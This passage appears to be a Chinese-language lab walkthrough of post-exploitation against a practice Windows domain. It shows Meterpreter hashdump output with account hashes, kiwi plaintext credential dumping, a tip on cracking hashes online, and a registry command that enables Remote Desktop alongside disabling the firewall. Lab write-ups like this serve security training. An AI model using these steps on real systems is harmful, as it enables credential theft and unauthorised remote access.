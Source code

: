 ### 确定域控ip为`192.168.52.138`

### <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/87dc8d994343b159810ad8ee0e203330.png" alt="87dc8d994343b159810ad8ee0e203330.png" width="566" height="220" class="jop-noMdConv">

### 接下来迁移会话进程

### <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/27f352614a4bc73c6757751ab1527dbe.png" alt="27f352614a4bc73c6757751ab1527dbe.png" width="608" height="211" class="jop-noMdConv">

### hashdump

### **PS:格式是：用户名称: RID:LM-HASH 值: NT-HASH 值，rid 是 windows 系统账户对应固定的值，类似于 linux 的 uid，gid 号，500 为 administrator，501 为 guest 等。而 lm 的 hash 和 nt 的 hash,都是对用户密码进行的加密，只不过加密方式不一样。复制其中一种加密的 hash 可以直接使用在线 cmd5 破解**

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### 由于已经获得system权限，可以加载`load kiwi`模块，`creds_all`导出明文密码`hongrisec@2019`

### <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/c422e005743256a98801712346950f00.png" alt="c422e005743256a98801712346950f00.png" width="621" height="421" class="jop-noMdConv">

### 查看3389开放情况，并尝试打开3389,关闭防火墙，连接远程桌面

### `netstat -an | findstr “3389”`查看远程端口

### <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/ac6d64d06ae5849031880b418f431f75.png" alt="ac6d64d06ae5849031880b418f431f75.png" width="320" height="66" class="jop-noMdConv">

### 开启3389`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`
